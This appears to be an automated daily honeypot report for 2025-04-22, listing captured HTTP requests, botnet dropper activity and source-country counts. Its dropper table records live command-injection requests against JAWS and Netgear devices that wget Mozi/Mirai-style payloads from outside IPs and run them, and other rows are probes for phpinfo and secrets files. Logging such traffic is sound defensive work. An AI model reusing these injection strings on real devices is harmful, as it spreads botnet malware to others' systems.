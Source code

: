 ```yaml
---
title: "Report: 2025-04-22 "
date: 2025-04-22
desciption: "Report: 2025-04-22" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-22 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 27 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 7612 requests were recorded during the day, originating from 3 different countries, with a peak of 6185 requests coming from SC.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 104.42.213.46  | GET /shell?cd+/tmp;cd+/var;wget+http://199.195.254.118/jaws+-O+lwodo;sh%+lwodo;rm+-rf+lwodo HTTP/1.1                                                                        |
| 122.97.138.102 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                       |
| 45.230.66.35   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.35:11827/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|-----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   77 |                     4 | POST /any HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|   91 |                     2 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 |
|  678 |                     1 | GET /services/php.ini HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 1056 |                     1 | GET /lms/dashboard/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 1452 |                     1 | GET /live/lara/info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 1962 |                     1 | GET /wp-content/themes/secrets.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 2100 |                     1 | \x00\x0E8\xC4\xEDv\xAC\xDA*\xC6\xEA\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 2109 |                     1 | \x00\x0E8\xEAHl\x0B\x9Cn\xFD\x96\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 2111 |                     1 | POST /api/user/binLookup?time=1745327114955715816 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 2112 |                     1 | GET /api/bin/440393?time=1745327114544332482 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2113 |                     1 | GET /config/index?time=1745326096726238592 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 2124 |                     1 | \x00\x0E8O\xDB\xE0\x17\xC3D\x13\xB4\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 2133 |                     1 | \x00\x0E8\xAE1\xC9\x9AR\xDC\xC3\xAF\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 2134 |                     1 | \x00\x0E\x08\xAE1\xC9\x9AR\xDC\xC3\xAF\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 2137 |                     1 | \x00\x0E8R\x99\xFA FB%\x7F\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 2139 |                     1 | POST /api/user/binLookup?time=1745327064178202500 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 2140 |                     1 | GET /api/bin/440393?time=1745327063763103530 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2141 |                     1 | GET /config/index?time=1745326058542704505 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 2157 |                     1 | \x00\x0E8dx8\x13\xA9\xB7\xB8\xD6\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 2176 |                     1 | \x00\x0E8\xA6M\x1D\x18\x09%\xBC6\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 2180 |                     1 | POST /api/user/binLookup?time=1745327682039014809 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 2181 |                     1 | GET /api/bin/440393?time=1745327681535733245 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2182 |                     1 | GET /config/index?time=1745326516575261339 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 2186 |                     1 | \x00\x0E\x08 \x03Qd>\xEF\xEE\xF7\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 2187 |                     1 | \x00\x0E8 \x03Qd>\xEF\xEE\xF7\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 4204 |                     1 | POST /CGI/Execute HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 5087 |                     1 | GET /client/lara/info.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  6185 | SC                 |
|  1 |                   321 | GB                 |
|  2 |                   277 | US                 |
|  3 |                   164 | NL                 |
|  4 |                   116 | CN                 |
|  5 |                    91 | PL                 |
|  6 |                    69 | HK                 |
|  7 |                    57 | DE                 |
|  8 |                    56 | CA                 |
|  9 |                    47 | SG                 |
| 10 |                    47 | JP                 |
| 11 |                    28 | AU                 |
| 12 |                    26 | KR                 |
| 13 |                    15 | UA                 |
| 14 |                    14 | AO                 |
| 15 |                    10 | HR                 |
| 16 |                    10 | GH                 |
| 17 |                     8 | IL                 |
| 18 |                     7 | TW                 |
| 19 |                     7 | FR                 |
| 20 |                     6 | PT                 |
| 21 |                     5 | BE                 |
| 22 |                     5 | RU                 |
| 23 |                     4 | BR                 |
| 24 |                     4 | BG                 |
| 25 |                     3 | NG                 |
| 26 |                     3 | IN                 |
| 27 |                     3 | MC                 |
| 28 |                     2 | TH                 |
| 29 |                     2 | TR                 |
| 30 |                     2 | AR                 |
| 31 |                     2 | IE                 |
| 32 |                     2 | GE                 |
| 33 |                     2 | CZ                 |
| 34 |                     2 | ES                 |
| 35 |                     2 | HU                 |
| 36 |                     2 | IT                 |
| 37 |                     1 | NZ                 |
| 38 |                     1 | EE                 |
| 39 |                     1 | AZ                 |
| 40 |                     1 | MK                 |
| 41 |                     1 | HN                 |
| 42 |                     1 | ID                 |
